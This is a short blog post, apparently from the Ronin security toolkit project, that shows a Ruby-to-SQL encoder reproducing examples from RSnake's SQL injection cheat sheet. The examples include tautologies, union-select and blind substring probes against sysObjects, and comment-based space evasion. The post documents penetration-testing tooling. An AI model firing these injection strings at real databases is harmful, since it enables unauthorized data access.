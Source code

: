 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using Ronin SQL
author: postmodern
---
```


One of the planned features listed in the
[Spring Cleaning Campaign (2010)](/blog/2010/01/12/spring-cleaning.html)
was a simple Ruby->SQL encoder for the
[Ronin SQL](http://github.com/ronin-ruby/ronin-sql/) library, to replace the
overly complex Ronin SQL DSL. This encoder would format Ruby Integers,
Strings, Arrays and Hashes into fragments of proper SQL.

The Ruby->SQL encoder has gotten to the point
of being able to recreate most of the examples from
[RSnake's SQL Injection Cheat Sheet](http://ha.ckers.org/sqlinjection/):

    require 'ronin/code/sql' 
    include Ronin

    sql = Code.sql

    sql[1, :or, 1, :eq, 1].to_s
    # => "1 or 1 = 1"

    sql['1', :or '1', :eq, '1'].to_s
    # => "'1' or '1' = '1'"

    sql[1, :exec, :sp_, [sql[:or, :exec, :xp_]]].to_s
    # => "1 exec sp_ (or exec xp_)"

    sql[1, :and, 1, :eq, 1].to_s
    # => "1 and 1 = 1"

    sql['1', :and, 1, :eq, [sql[:select, sql.count(:all), :from, :tablenames]]].to_s
    # => "'1' and 1 = (select count(*) from tablenames)"

    sql[1, :and, sql.user_name(), :eq, 'dbo'].to_s
    # => "1 and user_name() = 'dbo'"

    sql[:DESC, :users].to_s
    # => "DESC users"

    sql[1, :and, :non_existant_table, :eq, '1'].to_s
    # => "1 and non_existant_table = '1'"

    sql[:or, :username, :is, :not, nil, :or, :username, :eq].to_s
    # => "or username is not null or username ="

    sql[1, :and, sql.ascii(sql.lower(sql.substring( [sql[:select, :top, 1, :name, :from, :sysObjects, :where, :xtype, :eq, 'U']], 1, 1))), :gt, 116].to_s
    # => "1 and ascii(lower(substring((select top 1 name from sysobjects where xtype = 'U'),1,1))) > 116"

    sql[1, :union, :all, :select, [1,2,3,4,5,6,:name], :from, :sysObjects, :where, :xtype, :eq, 'U'].to_s
    # => "1 union * select (1,2,3,4,5,6,name) from sysObjects where xtype = 'U'"

    stmt = sql[1, :union, :select, :all, :from, :where]
    stmt.to_s
    # => "1 union select * from where"

    stmt.spaces = false
    stmt.to_s
    # => "1/**/union/**/select/**/*/**/from/**/where"

<div class="note">
  <p>
    I cheated a little by leaving off the prefix/suffix tick-marks used in
    SQL injections.
  <p>
</div>

New SQL fragments are created using the `sql[...]` syntax, and new SQL
function calls are created with `sql.func_name`. Note, that you can nest
SQL fragments by using the `[sql[...]]` or `[sql.func_name(....)]` syntax.
